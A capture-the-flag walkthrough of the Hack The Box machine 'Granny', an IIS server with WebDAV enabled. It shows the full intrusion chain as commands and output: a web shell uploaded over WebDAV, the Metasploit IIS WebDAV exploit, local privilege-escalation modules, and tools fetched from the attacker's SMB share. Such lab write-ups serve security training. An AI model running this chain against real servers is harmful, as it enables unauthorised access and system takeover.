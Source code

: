 Box: Windows
Level: Easy
### Index
1. WebDAV Exploitation 
2. Cadaver - WebDav client for Linux
3. davtest - Command line utility to check if you're allowed to upload file using PUT/Move Method. Uploads random files 
4. local_exploit_Suggester.
5. winPEAS.bat transfer to target. 
6. Python to start the FTP Server


Following HTTP Methods were supported
```
http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

The IIS Server has the WebDev enabled as per nmap 
```
http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path>
```

Now Here are couple of lessons that I have learned. Running local_exploit_suggester gives me couple of exploits that might work however, none of them were worked. I tried winPEAS.bat and didn't find a proper path to privilege escalation. During the nmap enumeration, I found the following thing enabled on the box.

```
_http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path
```

WebDAV was ENABLED. I used the following two tools to check whether I am allowed to upload on the target.
```
$ davtest -move -sendbd auto -url http://granny.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://granny.htb
********************************************************
NOTE    Random string for this session: f4my2eP
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://granny.htb/DavTestDir_f4my2eP
********************************************************
 Sending test files (MOVE method)
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_jsp.txt
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp;.txt
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_html.txt
MOVE    html    SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.html
^C
```

Following to this, I used the 'cadaver'  which is a command line WebDav client for Linux to put the Shell.aspx 
```
cadaver http://granny.htb/
dav:/DavTestDir_f4my2eP/> put shell2.aspx 
Uploading shell2.aspx to `/DavTestDir_f4my2eP/shell2.aspx':
Progress: [=============================>] 100.0% of 3015 bytes failed:
```

I got the reverse shell by visiting the http://granny.htb/DavTestDir_f4my2eP/shell2.aspx. NetCat Listener was started. Now I did the same thing with msfconsole. 
```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.15
set LHOST 10.10.16.5
exploit

meterpreter>shell
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

From here, I had to reset this machine 3 times to use the local_exploit_suggester. I got the following suggestion from the local exploit suggester.
```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

Out of which I used exploit/windows/local/ms10_015_kitrap0d to get the system shell.

At one point, I was struggling with transferring the winPEAS.exe (EXE File) onto the target server. I tried the impacket-smbserver.

```
On my kali
==========
impacket-smbserver a /home/ringbuffer/Downloads/Granny.htb 

On the target
=============
C:\windows\temp>net use \\10.10.16.5\a
net use \\10.10.16.5\a
The command completed successfully.

C:\windows\temp>net use
net use
New connections will be remembered.

Status       Local     Remote                    Network
-------------------------------------------------------------------------------
OK                     \\10.10.16.5\a            Microsoft Windows Network
The command completed successfully.

C:\windows\temp>copy \\10.10.16.5\a\winPEAS.exe c:\windows\temp\winPEAS.bat
copy \\10.10.16.5\a\winPEAS.bat c:\windows\temp\winPEAS.bat
        1 file(s) copied.

```


I used the python FTP server as well. The python's pyftpdlib library was used.

```
python -m pyftpdlib -p 21
```

```
use exploit/windows/local/ms14_058_track_popup_menu
```

The above exploit was used to capture the user and admin flag.
